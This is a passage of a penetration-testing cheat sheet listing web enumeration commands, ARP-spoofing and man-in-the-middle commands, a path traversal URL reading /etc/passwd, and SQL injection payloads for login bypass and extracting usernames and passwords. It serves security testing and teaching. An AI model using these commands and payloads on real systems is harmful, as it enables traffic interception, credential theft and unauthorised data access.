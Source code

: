 #### HTTP/HTTPS (Ports 80, 443)
```bash
# Directory enumeration
dirb http://target.com
gobuster dir -u http://target.com -w wordlist.txt
feroxbuster -u http://target.com
```

### ARP Poisoning & MITM Attacks
```bash
# Enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# ARP spoofing
arpspoof -i eth0 -t victim_ip gateway_ip
arpspoof -i eth0 -t gateway_ip victim_ip

# Using ettercap
ettercap -T -M arp:remote /gateway_ip// /victim_ip//
```

---

## Web Application Security

### OWASP Top 10 (Latest)

#### 1. Broken Access Control
- **Description**: Users can act outside intended permissions
- **Examples**: URL manipulation, privilege escalation
- **Testing**:
```bash
# Directory traversal
http://target.com/file?path=../../../../etc/passwd

# IDOR (Insecure Direct Object Reference)
http://target.com/user?id=123 (try id=124,125,etc)
```

#### 2. Cryptographic Failures
- **Description**: Weak encryption, plaintext storage
- **Testing**: Check for SSL/TLS vulnerabilities
```bash
sslscan target.com
testssl target.com
```

#### 3. Injection Attacks

**SQL Injection**
```sql
-- Authentication bypass
' OR '1'='1
admin'--
admin' #

-- Union-based
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT username,password FROM users--

-- Error-based
' AND 1=CONVERT(int,(SELECT @@version))--

-- Blind SQL injection
' AND 1=1--  (True)
```